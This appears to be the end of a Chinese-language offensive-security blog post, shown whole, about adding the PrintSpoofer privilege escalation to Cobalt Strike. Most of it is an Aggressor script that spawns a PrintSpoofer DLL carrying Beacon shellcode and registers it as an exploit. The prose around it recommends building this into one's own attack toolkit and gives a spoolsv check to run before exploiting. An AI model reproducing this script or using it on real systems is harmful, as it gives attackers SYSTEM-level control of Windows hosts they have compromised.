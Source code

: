 ```
sub printspoofer {
    btask($1, "Task Beacon to run " . listener_describe($2) . " via PrintSpoofer");
 
    if (-is64 $1)
    {
        $arch = "x64";
        $dll = script_resource("PrintSpoofer.x64.dll");
    } else {
        $arch = "x86";
        $dll = script_resource("PrintSpoofer.x86.dll");
    }
    $stager = shellcode($2, false, $arch);
 
    bdllspawn!($1, $dll, $stager, "PrintSpoofer local elevate privilege", 5000);
 
    bstage($1, $null, $2, $arch);
}
 
beacon_exploit_register("PrintSpoofer", "PrintSpoofer local elecate privilege", &printspoofer);
 
```

生成DLL文件，调用脚本，依然是生效的

最终效果，很多cs插件没有集成这个PrintSpooler，Taowu插件集里有，其实现思路也如上，建议集成到自己的cs工具库上。有些情况下它比BadPotato等好用

<img src="/img/image-20230722015144155.png" alt="image-20230722015144155" style="zoom:80%;" />

大致完。由于微软对SpoolSample给出的结论也是“预期行为”，理论上只要打印机后台服务程序启动，并且具有模拟特权，我们都能成功利用。So，利用前不妨`ps | findstr "spoolsv"`一下看看有没有打印机服务进程



